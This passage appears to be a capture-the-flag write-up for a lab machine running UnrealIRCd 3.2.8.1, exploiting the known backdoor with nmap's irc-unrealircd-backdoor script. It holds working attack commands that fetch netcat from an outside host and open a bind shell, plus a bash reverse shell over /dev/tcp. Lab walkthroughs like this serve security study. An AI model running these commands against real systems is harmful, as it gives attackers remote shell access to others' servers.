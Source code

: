 ### `Web Says IRC Almost Setup`
![](irked_web0.png)

### `UnrealIRCd 3.2.8.1 - Backdoor Command Execution`

A simple nmap script would help me get the initial shell.
```
# nmap -d -p6697 --script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command='wget http://www.javaop.com/~ron/tmp/nc && chmod +x ./nc && ./nc -l -p 4444 -e /bin/sh' 10.10.10.117
PORT     STATE SERVICE REASON
6697/tcp open  ircs-u  syn-ack ttl 63
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277
Final times for host: srtt: 39842 rttvar: 31547  to: 166030
```

In the above nmap command, the `--script-args` execution is kind of a race condition so I put a shell code. 

At this point I started the NetCat Listener on port 4444 and run the above Nmap command again with a different `--script-args` to catch the shell
```
# nmap -p6697 --script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command='bash -c "bash -i >& /dev/tcp/10.10.14.8/4444 0>&1"' 10.10.10.117
PORT     STATE SERVICE
6697/tcp open  ircs-u
|_irc-unrealircd-backdoor: Server closed connection, possibly due to too many reconnects. Try again with argument irc-unrealircd-backdoor.wait set to 100 (or higher if you get this message again).

Nmap done: 1 IP address (1 host up) scanned in 23.62 seconds

```
